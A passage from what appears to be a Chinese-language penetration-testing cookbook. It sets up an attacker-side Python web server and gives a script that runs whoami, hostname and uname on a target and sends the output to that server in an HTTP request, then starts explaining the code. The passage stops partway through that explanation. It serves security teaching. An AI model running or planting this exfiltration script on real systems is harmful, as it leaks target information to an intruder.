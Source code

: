 ## 准备就绪

此示例需要一个 Web 服务器，该服务器可在攻击者一侧访问，以便接收来自目标的 HTTP 请求。幸运的是，Python 有一种非常简单的方法来启动 Web 服务器：

```py
$ Python –m SimpleHTTPServer

```

这将在端口`8000`上启动一个 HTTP Web 服务器，提供当前目录中的任何文件。它接收到的任何请求都将直接打印到控制台，这是一种非常快速获取数据的方法，因此是此脚本的一个很好的补充。

## 如何做…

这是一个将在服务器上运行各种命令并通过 Web 请求传输输出的脚本：

```py
import requests
import urllib
import subprocess
from subprocess import PIPE, STDOUT

commands = ['whoami','hostname','uname']
out = {}

for command in commands:
    try:
            p = subprocess.Popen(command, stderr=STDOUT, stdout=PIPE)
            out[command] = p.stdout.read().strip()
    except:
        pass

requests.get('http://localhost:8000/index.html?' + urllib.urlencode(out))
```

## 工作原理…

导入之后，脚本的第一部分创建了一个命令数组：

```py
commands = ['whoami','hostname','uname']
```

这是三个标准的 Linux 命令的示例，可以向攻击者提供有用的信息。请注意，这里假设目标服务器正在运行 Linux。使用前几章的脚本进行侦察，以确定目标操作系统，并在必要时用 Windows 等效命令替换此数组中的命令。

接下来，我们有主要的`for`循环：

```py
            p = subprocess.Popen(command, stderr=STDOUT, stdout=PIPE)
            out[command] = p.stdout.read().strip()
```

代码的这部分执行命令并从`subprocess`中获取输出（将标准输出和标准错误都传输到单个`subprocess.PIPE`中）。然后将结果添加到输出字典中。请注意，我们在这里使用`try`和`except`语句，因为任何无法运行的命令都会引发异常。

最后，我们有一个单一的 HTTP 请求：
